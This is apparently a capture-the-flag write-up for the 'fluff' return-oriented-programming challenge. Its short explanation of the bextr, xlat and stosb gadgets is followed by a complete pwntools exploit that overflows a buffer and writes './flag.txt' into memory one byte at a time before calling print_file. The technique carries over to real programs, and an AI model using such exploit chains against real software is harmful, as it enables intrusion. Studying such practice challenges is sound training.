


now this is a hard one



we are provided with no convenient gadgets for altering a memory space

instead we are provided with some peculiar gadgets as of below



bextr rdx,rcx,rbx let us provide rbx an arbitary value, while xlat let us manipulate al with rbx and stos al,es:(rdi) let us store a single byte from al to the memory at rdi

all left to do is find every single byte we need in the binary to craft the flag address, one byte at a time. How rigorous!

```
#!/usr/bin/env python3

from pwn import *

exe = ELF("./fluff")

context.binary = exe
context.log_level = "debug"

script = '''
b*pwnme+150
c
'''

def main():
    # r = gdb.debug(exe.path, gdbscript=script)
    r = process(exe.path)

    stosb_byte_IrdiI_al=0x0000000000400639
    pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx=0x40062a
    xlatb=0x0000000000400628
    pop_rdi=0x00000000004006a3

    buf=0x28*b"A"

    flag=[0x40024e, 0x400238, 0x4003c4, 0x400239, 0x4003d6, 0x4003cf, 0x40024e, 0x400192, 0x400246, 0x400192]
    val =[0x2E, 0x2F, 0x66, 0x6C, 0x61, 0x67, 0x2E, 0x74, 0x78, 0x74]

    payload=flat(
        buf,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[0]-0x3ef2-0xb,
        xlatb,
        pop_rdi,
        0x601800,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[1]-0x3ef2-val[0],
        xlatb,
        pop_rdi,
        0x601801,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[2]-0x3ef2-val[1],
        xlatb,
        pop_rdi,
        0x601802,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[3]-0x3ef2-val[2],
        xlatb,
        pop_rdi,
        0x601803,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[4]-0x3ef2-val[3],
        xlatb,
        pop_rdi,
        0x601804,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[5]-0x3ef2-val[4],
        xlatb,
        pop_rdi,
        0x601805,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[6]-0x3ef2-val[5],
        xlatb,
        pop_rdi,
        0x601806,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[7]-0x3ef2-val[6],
        xlatb,
        pop_rdi,
        0x601807,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[8]-0x3ef2-val[7],
        xlatb,
        pop_rdi,
        0x601808,
        stosb_byte_IrdiI_al,
        
        pop_rdx_pop_rcx_add3ef2_rcx_bextr_rbx_rcx_rdx,
        0x4000,
        flag[9]-0x3ef2-val[8],
        xlatb,
        pop_rdi,
        0x601809,
        stosb_byte_IrdiI_al,

        pop_rdi,
        0x601800,
        exe.plt["print_file"]
    )

    time.sleep(0.1)
    r.send(payload)

    r.interactive()

if __name__ == "__main__":
    main()

```